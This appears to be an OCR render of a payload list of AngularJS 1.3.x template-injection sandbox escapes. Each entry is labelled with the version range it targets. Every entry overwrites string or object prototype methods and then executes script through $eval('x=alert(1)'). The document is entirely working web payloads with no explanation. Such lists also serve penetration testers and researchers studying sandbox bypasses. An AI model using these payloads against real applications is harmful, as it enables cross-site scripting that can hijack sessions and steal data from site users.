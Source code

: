   
---
AngularJS 1.3.20

```javascript

{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}

```

  
---
AngularJS 1.3.19

```javascript

{{

'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;

$eval('x=alert(1)//');

}}

```

  
---
AngularJS 1.3.3 - 1.3.18

```javascript

{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;

'a'.constructor.prototype.charAt=[].join;

$eval('x=alert(1)//'); }}

```

  
---
AngularJS 1.3.1 - 1.3.2

```javascript

{{

{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;

'a'.constructor.prototype.charAt=''.valueOf;

$eval('x=alert(1)//');

}}

```
